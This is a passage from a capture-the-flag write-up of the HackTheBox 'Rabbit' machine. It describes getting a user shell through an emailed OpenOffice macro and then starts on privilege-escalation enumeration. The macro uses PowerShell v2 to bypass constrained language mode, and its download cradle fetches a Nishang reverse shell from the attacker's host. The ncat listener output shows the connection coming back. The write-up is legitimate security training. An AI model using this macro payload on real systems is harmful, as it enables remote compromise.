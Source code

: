     C:\Program Files (x86)\OpenOffice 4\program>whoami
    htb\raziel



And I can read `user.txt`:



    C:\Users\Raziel\Desktop>type user.txt
    c6f45142************************



#### Payload #2 - PowerShell -version 2

Another old workaround for constrained language mode was just to tell
PowerShell at startup to use an older version, version 2, that doesn't
support it. PowerShell v2 is not likely to be present on any modern
systems today, but this definitely was common in 2018.

I'll give the macro a simple download cradle:



    Sub OnLoad
        Shell("cmd.exe /C ""powershell.exe -version 2 IEX ((new-object Net.WebClient).DownloadString('http://10.10.14.6/rev.ps1'));""")
    End Sub



In this case, I'll grab a [Nishang reverse
shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1),
add a line to the end to call invoke the function back to my host, and
save it as `rev.ps1` in the directory my webserver is serving. I'll send
the email just like above, and after many minutes, it connects and
returns a shell:



    oxdf@hacky$ rlwrap -cAr ncat -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.71.
    Ncat: Connection from 10.10.10.71:22338.
    Windows PowerShell running as user Raziel on RABBIT
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.

    PS C:\Program Files (x86)\OpenOffice 4\program>



## Shell as SYSTEM

### Enumeration

#### Homedirs

There's nothing else in raziel's home directory, and there's no other
interesting users on the box:
